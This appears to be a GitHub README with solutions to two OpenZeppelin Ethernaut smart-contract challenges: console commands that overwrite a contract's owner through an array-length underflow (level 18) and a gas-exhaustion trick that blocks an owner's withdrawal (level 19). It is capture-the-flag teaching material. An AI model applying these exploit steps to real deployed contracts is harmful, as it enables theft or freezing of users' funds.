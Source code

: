 # Ethernaut-Solutions

Solutions to some of Openzeppelins's Ethernaut Challenges


## Level 18.

Steps to pass the level: 
1. Run the attached contract's one() function on Remix and copy the value stored in the variable.
2. run the following commands : 
await contract.make_contact()
await contract.retract();
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x000000000000000000000000318Edb8407bc022556989429EAC679F1e4001B5c');


## Level 19

Simply use up all the gas when sending eth to partner. No gas is left for a transfer to owner in the end. 
Steps to pass the level:
1. Deploy the malicious contract
2. Call Level 19's withdraw function()
3. Submit.
